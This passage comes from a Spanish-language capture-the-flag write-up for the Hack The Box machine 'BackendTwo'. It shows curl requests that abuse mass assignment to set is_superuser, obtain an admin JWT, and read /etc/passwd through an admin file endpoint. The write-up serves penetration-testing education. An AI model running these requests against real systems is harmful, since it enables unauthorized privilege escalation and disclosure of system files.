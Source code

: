 ![](/assets/images/htb-backend/backendtwo3.PNG)

```console
curl -X 'PUT' 'http://10.10.11.162/api/v1/user/12/edit' \
  -H 'accept: application/json' -H 'Content-Type: application/json' \
  -H "Authorization: bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9..." -d '{ "profile": "Test","is_superuser": true}'
└─$ curl -s http://10.10.11.162/api/v1/user/12 
{"guid":"89e788f8-d7a0-46c6-960a-5cfb38ebd217","email":"cucuxii@backendtwo.htb","profile":"Test","last_update":null,"time_created":1667562252633,"is_superuser":true,"id":12} 
```
Como vemos, el campo **is_superuser** se ha actualizado. Esto es un **MASS ASSGINMENT ATTACK**, un ataque donde te permiten modificar algo (profile) 
y tu modificas más cosas de las esperadas (is_superuser).
Nuestra cookie tambien es diferente.
```console
└─$ curl -s -X POST http://10.10.11.162/api/v1/user/login -d "username=cucuxii@backendtwo.htb&password=cucucxii123" {"access_token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjY4MjU1NzExLCJpYXQiOjE2Njc1NjQ1MTEsInN1YiI6IjEyIiwiaXNfc3VwZXJ1c2VyIjp0cnVlLCJndWlkIjoiODllNzg4ZjgtZDdhMC00NmM2LTk2MGEtNWNmYjM4ZWJkMjE3In0.HR5JRYccC8mR5apNvr0frjMjDlwXlNLQZ_txnJnkq5g","token_type":"bearer"}
```
Ahora actualizamos el header en el navegador:
```console
└─$ curl -s -X GET http://10.10.11.162/api/v1/admin/ -H "Authorization: bearer eyJhbGciOiJIUzI1NiIsInR5cCI6Ik..." # -> {"results":true}
```
Si, en efecto somos un superusaurio.

-------------------------
# Part 4: Leyendo archivos de la máquina

Hay un endpoint que permite leer la flag del usaurio, pero la respuesta es diferente al de la máquina anterior.
```console
└─$ curl -X 'GET' 'http://10.10.11.162/api/v1/admin/get_user_flag' \
  -H 'accept: application/json' -H "Authorization: bearer 
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjY4MjU1NjY3LCJpYXQiOjE2Njc1NjQ0NjcsInN1YiI6IjEyIiwiaXNfc3VwZXJ1c2VyIjp0cnVlLCJndWlkIjoiODllNzg4ZjgtZDdhMC00NmM2LTk2MGEtNWNmYjM4ZWJkMjE3In0.8N5hggb5u-NdfZLYLUHxvpmR6w5j3c5VKEipM7VD-2c"
{"file":"918ab951ec1f2e6f7e948cea7c889e34\n"}
```
No es una flag sino algo un poco raro, encima nos meten un salto de linea al final...
Si lo decodificamos en base64 o en hexadecimal salen caracteres sin sentido.
Este numero raro parece un md5sum del user.txt ```md5sum Backendtwo.md # -> 6b02f163d0984afcc4ea98b2685a2e92  Backendtwo.md```

Nos dan tambien un endpoint para leer archivos de la máquina. Meto **/etc/passwd** que se queda así ```http://10.10.11.162/api/v1/admin/file/%2Fetc%2Fpasswd```

![](/assets/images/htb-backend/backendtwo4.PNG)
